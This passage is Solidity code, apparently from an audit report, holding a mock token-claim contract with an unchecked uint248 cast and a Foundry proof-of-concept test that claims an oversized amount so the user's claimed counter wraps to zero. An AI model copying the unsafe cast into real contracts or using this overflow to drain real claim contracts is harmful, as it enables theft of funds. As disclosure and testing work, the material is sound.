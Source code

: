 ```solidity
        }
        if (totalClaimAmount > 0) i_token.safeTransfer(user, totalClaimAmount);
    }

    function _processClaim(address user, IBUILDClaim.ClaimParams calldata p) private returns (uint256) {
        (uint256 toBeClaimed, uint256 newTotalClaimed,) = _calculateClaimAmounts(user, p);
        if (toBeClaimed > 0) _updateClaimedAmounts(user, p.seasonId, toBeClaimed, newTotalClaimed);
        return toBeClaimed;
    }

    function _calculateClaimAmounts(address user, IBUILDClaim.ClaimParams calldata p)
        private view returns (uint256 toBeClaimed, uint256 newTotalClaimed, uint256)
    {
        UserState memory us = s_userStates[user][p.seasonId];
        toBeClaimed      = p.maxTokenAmount - us.claimed;
        newTotalClaimed  = s_globalStates[p.seasonId].totalClaimed + toBeClaimed;
    }

    function _updateClaimedAmounts(address user, uint256 seasonId, uint256 toBeClaimed, uint256 newTotalClaimed) private {
        s_userStates[user][seasonId].claimed += uint248(toBeClaimed); // <-- overflow!
        s_globalStates[seasonId].totalClaimed = newTotalClaimed;
    }
}

contract PoCUnsafeCast is Test {
    MintableERC20 token;
    MockClaim      claim;
    address admin = makeAddr("admin");
    address user  = makeAddr("user");

    function setUp() public {
        token = new MintableERC20();
        claim = new MockClaim(address(token));
    }

    function test_PoC_unsafe_cast() public {
        uint256 largeClaimAmount = uint256(type(uint248).max) + 1;
        uint256 depositAmount    = largeClaimAmount * 2;

        token.mint(admin, depositAmount);
        vm.startPrank(admin);
        token.approve(address(claim), depositAmount);
        claim.deposit(depositAmount);
        vm.stopPrank();

        vm.startPrank(user);
        IBUILDClaim.ClaimParams[] memory single = new IBUILDClaim.ClaimParams[](1);
        single[0] = IBUILDClaim.ClaimParams({
            seasonId: 1,
            isEarlyClaim: false,
            proof: new bytes32[](0),
            maxTokenAmount: largeClaimAmount,
            salt: 0
        });

        // First claim — overflow occurs
        claim.claim(user, single);

        // UserState.claimed should have wrapped to 0
        IBUILDClaim.UserSeasonId[] memory usid = new IBUILDClaim.UserSeasonId[](1);
        usid[0] = IBUILDClaim.UserSeasonId({user: user, seasonId: 1});
```